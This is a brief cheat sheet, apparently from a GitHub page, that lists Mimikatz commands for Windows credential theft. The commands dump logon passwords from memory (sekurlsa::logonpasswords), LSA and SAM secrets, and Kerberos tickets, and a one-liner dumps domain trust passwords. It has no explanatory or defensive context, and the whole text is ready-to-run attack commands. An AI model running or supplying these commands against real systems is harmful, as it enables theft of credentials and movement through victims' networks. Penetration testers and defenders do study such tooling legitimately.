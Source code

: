 ## Mimikatz


```bash
privilege::debug
```
```
sekurlsa::logonpasswords
```
```
lsadump::lsa /patch
```
```
lsadump::sam
```
```
kerberos::list /export
```

#### Dumping trust passwords: 
```bash
mimikatz.exe “privilege::debug” “lsadump::trust /patch” exit
```
